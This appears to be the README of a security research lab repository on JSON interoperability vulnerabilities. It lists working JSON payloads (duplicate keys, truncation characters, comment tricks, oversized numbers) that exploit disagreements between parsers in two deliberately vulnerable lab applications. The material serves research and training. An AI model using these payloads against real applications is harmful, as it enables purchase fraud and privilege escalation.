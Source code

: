 # JSON Interoperability Vulnerability Labs

<p align="center">
  <img src="media/logo.jpg" width=350>
</p>


### Description
These are the companion labs to my research article ["An Exploration of JSON Interoperability Vulnerabilities"](https://labs.bishopfox.com/tech-blog/an-exploration-of-json-interoperability-vulnerabilities).

[Lab 1: Free purchases in an E-commerce Application](lab1/)
* Key Collision Attacks: Inconsistent Duplicate Key Precedence
* Inconsistent Large Number Representations

[Lab 2: Privilege Escalation in a Multi-tenant Application](lab2/)
* Key Collision Attacks: Character Truncation


These labs bind to host ports 5000-5004, by default.

### Attack Techniques

#### 1\. Key Collisions

**Inconsistent Duplicate Key Precedence**

```
{"qty": 1, "qty": -1}
```

**Character Truncation**

Truncation in last-key precedence parsers (flip order for first-key precedence)
```
{"qty": 1, "qty\<raw \x0d byte here>": -1}
{"qty": 1, "qty\ud800": -1} # Any unpaired surrogate U+D800-U+DFFF
{"qty": 1, "qty"": -1}
{"qty": 1, "qt\y": -1}
```
**Comment Truncation**

These documents take advantage of inconsistent support of comments and quote-less string support:
```
{"qty": 1, "extra": 1/*, "qty": -1, "extra2": 2*/}
{"qty": 1, "extra": a/*, "qty": -1, "extra2": b*/}
{"qty": 1, "extra": "a/*", "qty": -1, "extra2": "b"*/}
{"qty": 1, "extra": "a"//, "qty": -1}
```

#### 2\. Number Decoding

**Inconsistent Large Number Decoding**

These large numeric values may be converted to Strings (e.g., "+Infinity"), which may lead to type-juggling vulnerabilities. Or, they may be converted to MAX_INT/MIN_INT, rounded values, or 0, which may allow a bypass of business logic.
```
{"qty": 999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999}
{"qty": -999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999}
{"qty": 1.0e4096}
{"qty": -1.0e4096}
```

### Author

Twitter: [@theBumbleSec](https://twitter.com/theBumbleSec)

GitHub: [the-bumble](https://github.com/the-bumble/)
